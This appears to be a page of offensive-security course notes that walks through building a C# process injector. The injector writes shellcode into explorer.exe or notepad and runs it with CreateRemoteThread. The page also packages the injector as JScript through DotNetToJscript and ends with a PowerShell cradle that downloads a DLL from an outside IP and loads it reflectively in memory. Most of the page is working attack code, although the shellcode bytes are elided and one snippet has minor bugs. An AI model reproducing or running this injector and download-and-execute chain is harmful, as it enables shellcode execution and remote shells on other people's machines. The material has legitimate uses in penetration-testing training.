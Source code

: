 ## Visual Studio FTW
We start by creating yet another project in Visual Studio.
We'll once again, choose the ConsoleApp project.

We start by importing our 4 required APIs. For this, we'll be using our friendly neighborhood p/invoke.net 

We'll also state the 2 namespaces needed for the development of our process injector:
```C#
using System;
using System.Runtime.InteropServices;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        
        static void Main(string[] args)
        {
        }
    }
}
```

With the function in place, we can call it, with the following arguments:
1. dwDesiredAccess - PROCESS_ALL_ACCESS -  0x001F0FFF(hex value)
			- this will give us complete access over the explorer.exe process.
2. bInheritHandle - false 
3. dwProcessId - The process ID of explorer.exe

We call the function and put in the arguments:
```c#
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```

With our channel from one process to another, we must allocate memory with _VirtualAllocEx_
We perform another import, call the function and provide the following arguments:
1. hProcess - process handle of explorer.exe
2. lpAddress - Desired address of allocation (default for API to decide)
3. dwSize - desired allocation
4. flAllocationType - allocation type
5. flProtect - memory protections

We import the function with:
```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, 
  uint dwSize, uint flAllocationType, uint flProtect);
```

and call it with:
```C#
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```

We create a variable for our shellcode and move on to using _WriteProcessMemory_ to copy or shellcode memory space of explorer.exe

The function takes 4 arguments:
1. hProcess - the handle
2. lpBaseddress - newly allocated memory
3. lpBuffer - address of byte array containing the shellcode
4. nSize - size of the shellcode
5. lpNumberOfBytesWritten - location pointer in memory to ouput how much data copied.

We call and invoke the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```

We call our final API to execute the shellcode:
The _CreateRemoteThread_ function takes 7 arguments:
1. hProcess - process handle
2. lpThreadAttributes - desired security descriptors (set to 0 for default values)
3. dwStackSize - allowed stack size (set to 0 for default values)
4. lpStartAddress - address of the allocated buffer of shellcode
5. lpParameter - variables to be passed to the thread function pointed by the argument(set to 0 as no need for any parameters)
6. dwCreationFlags - flags to include(set to 0)
7. lpThreadid - output variable for thread(set to 0)

We again import and call the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, 
        IntPtr lpThreadId);
```
```C#
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

Our final code looks like so:
```C#
using System;
using System.Runtime.InteropServices;


namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[591] {
            0xfc,0x48,..,0xff,0xd5 };
                        IntPtr outSize;
            
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

We compile the project and execute it to get a shell in explorer.exe:
![exp-exe-sh](../../../Screenshots/exp-exe-sh.png)

## Exercise
To create a jscript file, we use the ExampleAssembly project in DotNetToJscript.
We also use the GetProceessByName method to get process dynamically

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
        Process[] localByName = Process.GetProcessesByName("notepad");
		int procid = localByName[0].Id
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, localByName);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

        byte[] buf = new byte[641] {
        0xfc,0x48,....,0xff,0xd5 };
        IntPtr outSize;

        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

We compile the code into a dll and use DotNetToJscript to create a js file which gets us a shell upon execution.

For the next exercise, we'll first create a dll using the .NET framework with the following code:
```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void runner()
        {
            System.Diagnostics.Process.Start(@"C:\Windows\System32\notepad.exe");
            Process[] localByName = Process.GetProcessesByName("notepad");
            int procId = localByName[0].Id;
            
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, procId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[674] {
            0xfc,0xe8,....,0xff,0xd5 };
            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}

```
We will then compile this into a dll, and use the following powershell code to get it executed:
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)